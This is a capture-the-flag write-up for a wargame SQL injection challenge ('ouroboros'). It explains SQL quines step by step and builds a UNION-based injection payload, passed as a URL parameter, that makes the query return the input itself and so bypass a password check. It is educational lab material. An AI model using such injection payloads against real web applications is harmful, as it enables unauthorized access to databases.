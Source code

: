 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 29
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

### Quine

An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34),Char(39)),Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', 
Char(34), 
Char(39)
)
-- - ,CHAR(36),"$") AS Quine', Char(34), Char(39)), Char(36), 'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `CHAR(34)` (double quote `"` character) with `CHAR(39)` (single quote `'` character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine'
-- - ,Char(36),"$") AS Quine', Char(34), Char(39)), Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine', 
Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `CHAR(36)` (dollar sign `$` character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace('SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', CHAR(34),CHAR(39)),CHAR(36), 'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT Replace(Replace('SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', CHAR(34), CHAR(39)), CHAR(36), 'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace('SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', CHAR(34), CHAR(39)), CHAR(36), 'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine
```

Thus, we can see how the query repeats itself.

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/2022ca1c-e568-4989-aa51-186eaacd6810)
